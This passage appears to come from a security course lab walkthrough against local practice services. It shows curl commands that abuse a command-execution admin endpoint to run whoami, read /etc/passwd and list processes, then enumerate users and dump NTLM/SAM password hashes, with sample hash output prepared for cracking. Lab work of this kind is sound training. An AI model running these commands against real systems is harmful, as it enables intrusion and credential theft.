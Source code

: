 ```bash
# Test basic command execution
curl -s "http://localhost:8080/api/admin/system?cmd=whoami" | jq '.'

# Enumerate system
curl -s "http://localhost:8080/api/admin/system?cmd=id" | jq '.'
curl -s "http://localhost:8080/api/admin/system?cmd=hostname" | jq '.'
curl -s "http://localhost:8080/api/admin/system?cmd=cat%20/etc/passwd" | jq '.'

# Network information
curl -s "http://localhost:8080/api/admin/system?cmd=ifconfig" | jq '.'
curl -s "http://localhost:8080/api/admin/system?cmd=ip%20addr" | jq '.'

# Process listing
curl -s "http://localhost:8080/api/admin/system?cmd=ps%20aux" | jq '.'
```

### 2.2 Authentication Service Enumeration (Cours 05 - Mots de passe)

#### User Enumeration

```bash
# Get list of users
curl -s http://localhost:8081/api/auth/users | jq '.'
```

**Discovered users:**
- admin
- john
- sarah
- dbadmin
- test

#### Password Hash Extraction

```bash
# Dump NTLM hashes
curl -s http://localhost:8081/api/auth/debug/hashes | jq '.' > ntlm_hashes.json

# Get SAM-formatted hashes (ready for john/hashcat)
curl -s http://localhost:8081/api/auth/sam-dump | jq -r '.data' > hashes_sam.txt

cat hashes_sam.txt
```

**Example output:**
```
admin:1000:E52CAC67419A9A224A3B108F3FA6CB6D:209C6174DA490CAEB422F3FA5A7AE634:::
john:1001:AAD3B435B51404EEAAD3B435B51404EE:E19CCF75EE54E06B06A5907AF13CEF42:::
sarah:1002:44EFCE164AB921CAAAD3B435B51404EE:32ED87BDB5FDC5E9CBA88547376818D4:::
dbadmin:1003:C23413A8A1E7665FAAD3B435B51404EE:B7C899154197D6E04DE72F9DDA8F7E8C:::
test:1004:AAD3B435B51404EEAAD3B435B51404EE:0CB6948805F797BF2A82807973B89537:::
```
